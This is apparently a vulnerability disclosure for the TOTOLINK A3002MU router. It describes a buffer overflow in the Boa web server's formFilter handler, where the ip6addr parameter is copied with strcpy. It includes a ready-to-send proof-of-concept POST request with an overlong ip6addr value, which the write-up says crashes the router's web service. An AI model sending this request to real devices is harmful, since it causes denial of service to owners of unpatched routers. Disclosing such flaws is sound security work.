







# TARGET

**Product:** TOTOlink A3002MU
 **Model:** A3002MU AC1200 Giga Wireless Router
 **Vendor:** TOTOLINK
 **Official Website:** https://www.totolink.net/
 **Firmware Version:** Hh-B20211125.1046

# BUG TYPE

**Buffer Overflow Vulnerability**

# Abstract

A buffer overflow vulnerability exists in the TOTOlink A3002MU router. The vulnerability is located in the `/bin/boa` web server's `formFilter` interface and is related to the handling of the `ip6addr` parameter. Because the firmware does not properly validate the length of this user-controllable input, a remote attacker can send a crafted HTTP request containing an overlong value. 

# Details

The `formFilter` function was analyzed using IDA Pro. The `ip6addr` parameter is read from the HTTP request and later copied into a fixed-size buffer with unsafe string-copy logic. Since the copy path does not enforce a reliable length boundary, an overlong value can overwrite adjacent memory and crash the Boa process.

Relevant code patterns observed during analysis include:

```c
strcpy((char )&v82[8] + 2, v103)
```







# POC

The affected endpoint is `POST /boafrm/formFilter HTTP/1.1`.

The crafted request or malicious URL used during verification is shown below:

```http
POST /boafrm/formFilter HTTP/1.1
Host: 192.168.0.1
sessionCheck=1021df0bf27309617e32b406b73f79f9&addFilterIp=1&enabled=1&protocol=0&ip=&ip6addr=2001:db8::1aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&fromPort=&toPort=&comment=
```

Before the attack, the router management interface is accessible and operating normally.

The malicious request or URL is sent to the target device during verification.

After the crafted request is sent and the management page is refreshed, the router web service stops responding, confirming a denial-of-service condition.








